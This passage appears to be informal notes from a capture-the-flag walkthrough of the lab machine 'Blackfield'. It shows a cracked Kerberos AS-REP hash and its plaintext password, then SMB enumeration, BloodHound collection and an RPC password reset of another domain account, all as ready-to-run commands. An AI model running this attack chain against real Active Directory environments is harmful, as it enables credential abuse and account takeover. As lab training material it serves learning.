 ```
$krb5asrep$23$support@BLACKFIELD.LOCAL:b53164c9a0ae5a16f681c5f59ee0867c$32f1fd3bbe4953de28530ff1f2c8e12ddae0e15e08a3266218e146fc57d0a815aa83611cf66d20115928d92159ad44a842370f40faa0405dba0c7a8a78ec27f71a8bfb9e1d60e1fc4a1a059b0940f4933a70d37dbf4e6d875fba8358459eaf88e8fd6670c127680ad8c7d3d29ff98c1865ddf43ed54416692e1e66a7500bba6ba46a52f5ed9909ce0cc9426bb538ea7c1a3f8c0a1762c810f5a7ed1a24598b991ad241cf1f8ff16fe34ae6e05c7f15c95288d79ff0f6a6f21130700823d5ac9c1bcc3035f81c0d6fd8ac4c00d484f8641fea808955ca52bf490f789bd6d8d7ecb84a97f39a730cfd806a75eb51f780fb63d6e4d2:#00^BlackKnight
```

`support:#00^BlackKnight`

ALRIGHT!

im going to try and winrm in now...
```
evil-winrm -i 10.10.10.192 -u support -p '#00^BlackKnight'
```

she fails...
ill try seeing if i can access anymore shares on smb:
```
smbmap -H 10.10.10.192 -u support -p '#00^BlackKnight'
```
```
ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	forensic                                          	NO ACCESS	Forensic / Audit share.
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ ONLY	Logon server share 
	profiles$                                         	READ ONLY	
	SYSVOL                                            	READ ONLY	Logon server share 
```

```
smbclient -N //10.10.10.192/NETLOGON -U 'blackfield.local\support' --password '#00^BlackKnight'
```

all of them are either empty or meaningless files.... ill move on once again:
```
bloodhound-python -c All -u support -p '#00^BlackKnight' -ns 10.10.10.192 -d blackfield.local -dc dc01.blackfield.local --zip
```

i can run this because i have kerberos account so i should be able to communicate with domain controller... lets upload this zip to bloodhound:
![[Pasted image 20250908203850.png]]

as i went to go mark support account pwned, i found the above! that has got to be useful...

knowing i can login via rpc i search google and find:
`https://room362.com/post/2017/reset-ad-user-password-with-linux/`

i find this:
```
rpcclient $> setuserinfo2 adminuser 23 'ASDqwe123'
```
now ill run:
```
rpcclient -U 'blackfield.local/support%#00^BlackKnight' 10.10.10.192 -c 'setuserinfo2 audit2020 23 "getPwned@123"'
```
